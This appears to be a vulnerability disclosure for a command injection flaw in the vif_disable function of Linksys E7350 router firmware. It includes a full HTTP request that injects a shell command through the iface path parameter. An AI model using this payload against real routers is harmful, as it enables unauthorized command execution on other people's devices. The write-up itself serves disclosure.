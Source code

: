 # Linksys E7350 Ver.1.1.00.032 Command Injection (vif_disable)

## Product Information

- Device: Linksys E7350
- Firmware Version: Ver.1.1.00.032
- Manufacturer's website information：https://www.linksys.com/
- Firmware download address ：https://support.linksys.com/kb/article/6935-cn/

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `vif_disable` function via the `iface` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/vif_disable/arg`

![](./3.png)

## Payload

We can trigger this vulnerability by injecting the `ls` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/vif_disable/;ls; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=2066ce7be48fd3ba36e4135e973cd840
```

After the injection, we can verify the result in the response.

![](./4.png)
